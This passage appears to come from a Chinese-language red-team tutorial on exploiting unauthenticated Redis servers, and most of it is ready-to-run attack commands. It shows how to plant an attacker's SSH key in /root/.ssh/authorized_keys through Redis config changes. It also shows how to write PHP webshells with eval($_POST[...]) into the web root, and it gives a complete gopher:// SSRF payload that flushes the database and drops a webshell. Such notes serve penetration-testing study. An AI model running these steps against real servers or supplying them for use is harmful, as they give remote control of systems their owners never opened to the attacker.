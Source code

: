 然后执行命令:
```bash
# 将公钥的内容写到一个文本中命令如下
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt

# 将里面的内容写入远程的 Redis 服务器上并且设置其 Key 为 test命令如下
cat test.txt | redis -cli -h <hostname> -x set test
redis-cli -h <hostname>
keys *
get test

# 设置 Redis 的备份路径为 /root/.ssh/ 和保存文件名为 authorized_keys ，并将数据保存在目标服务器硬盘上
config set dir "/root/.ssh"
config set dbfilename "authorized_keys"
save
```
保存后可以直接利用公钥登录 ssh

如果报错 `(error) ERR Changing directory: No such file or directory` 可能是因为 root 从来没有登录过

### 往 web 物理路径写 webshell

当 redis 权限不高时,并且服务器开着 web 服务,在 redis 有 web 目录写权限时,可以尝试往 web 路径写 webshell,执行以下命令
```bash
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php phpinfo();?>"
save
```
即可将 shell 写入 web 目录(web 目录根据实际情况)

这里的第三步写入 webshell 的时候，也可以使用
```bash
set xxx "\r\n\r\n<?php eval($_POST[whoami]);?>\r\n\r\n"
```

`\r\n\r\n` 代表换行，用 redis 写入文件的话会自带一些版本信息，如果不换行的话可能会导致无法执行, 可见下图

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/Redis/1.png)

gopher payload
```
gopher://127.0.0.1:6379/_*1%0d%0a\$8%0d%0aflushall%0d%0a*3%0d%0a\$3%0d%0aset%0d%0a\$1%0d%0ax%0d%0a\$25%0d%0a%3C%3Fphp%20%40eval(%24_POST%5Bc%5D)%3B%3F%3E%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$3%0d%0adir%0d%0a\$13%0d%0a/var/www/html%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$10%0d%0adbfilename%0d%0a\$9%0d%0ashell.php%0d%0a*1%0d%0a\$4%0d%0asave%0d%0a
```

### SSRF 配合 Redis 未授权访问漏洞进行攻击

- [SSRF#配合 Redis 未授权访问漏洞进行攻击](../../Web安全/Web_Generic/SSRF.md#配合-redis-未授权访问漏洞进行攻击)

---